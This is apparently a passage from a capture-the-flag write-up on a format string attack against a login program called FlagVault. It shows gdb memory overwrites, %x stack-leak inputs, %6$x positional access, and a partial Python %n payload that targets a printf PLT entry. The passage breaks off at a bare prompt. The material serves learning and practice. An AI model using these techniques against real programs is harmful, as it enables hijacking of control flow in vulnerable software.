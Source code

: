 ```
(gdb) 
```
set {int}0x0804a010=0x80486f9

set {int}0x0804a010=0x80486ea
```
0x08048676 in main ()
(gdb) set {int}0x0804a010=0x80486ea
(gdb) ni
0x08048679 in main ()
(gdb) 
0x0804867e in main ()
(gdb) 
CTFSG{<REDACTED FLAG>}
```
So we know we want to go to the location 0x80486ea to get the flag, and to do so we have to overwrite 0x0804a010

## How to do format string attack

We know the buffer is 512 bytes long
(so we do padding, in the pad function. of solve.py)

Find out what's in memory first
```
8888888888 888                  888     888                  888 888
888        888                  888     888                  888 888
888        888                  888     888                  888 888
8888888    888  8888b.   .d88b. Y88b   d88P 8888b.  888  888 888 888888
888        888     "88b d88P"88b Y88b d88P     "88b 888  888 888 888
888        888 .d888888 888  888  Y88o88P  .d888888 888  888 888 888
888        888 888  888 Y88b 888   Y888P   888  888 Y88b 888 888 Y88b.
888        888 "Y888888  "Y88888    Y8P    "Y888888  "Y88888 888  "Y888
                             888
                        Y8b d88P
                         "Y88P"
========================================================================
                                USER LOGIN
========================================================================
username => AAAABBBB%x--%x--%x--%x--%x--%x--%x--%x--%x--%x--%x--%x--%x--%x--
Enter password for AAAABBBB61700000--6f777373--75006472--6e726573--656d61--41414141--42424242--2d2d7825--2d2d7825--2d2d7825--2d2d7825--2d2d7825--2d2d7825--2d2d7825-- => q
Incorrect credentials!
```
A (0x41) starts from the 6th byte so lets use the %$ notation to straight away access that

```
username => AAAA%6$x
Enter password for AAAA41414141 => 
```
Cool looks like it works

Let's try overwriting memory again
```
import struct
buf = ''
buf += struct.pack('I', PRINTF_PLT)
buf += '|%p|'* 5 # Go to the location where the username is stored
# junk to make printf output 0x41 characters
buf += 'A'*(0x41-len(buf))
# this is where printf will write FLAG to PRINTF_PLT
buf += '%n'
print(buf)
```
```
username => 
```